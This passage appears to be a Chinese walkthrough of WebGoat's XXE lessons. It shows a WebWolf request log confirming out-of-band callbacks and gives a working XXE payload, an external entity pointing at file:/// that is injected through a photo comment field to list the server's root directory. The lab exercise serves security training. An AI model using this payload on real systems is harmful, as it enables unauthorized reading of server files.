  现在在WebWolf浏览到“传入请求”，你会看到 

```
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
```

 所以有了XXE，我们可以ping我们自己的服务器，这意味着XXE注入是可能的。所以使用XXE注入我们基本上可以达到和开始使用curl命令时一样的效果。 



# 解题

## lesson3

在提交表单时，您将在照片中添加一条注释，并尝试执行带有注释字段的XXE注入。试着列出文件系统的根目录。 

**hide hits:**

使用ZAP/Burp拦截请求并尝试包含自己的DTD , 包括可以如下 : <!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]> 

* 用**file:///**+文件的地址，其实就等价于文件的地址, file:///可以看本地的文件

 不要忘记引用实体  <comment><text>&root;test</text></comment> 

![](img/XEE1.png)
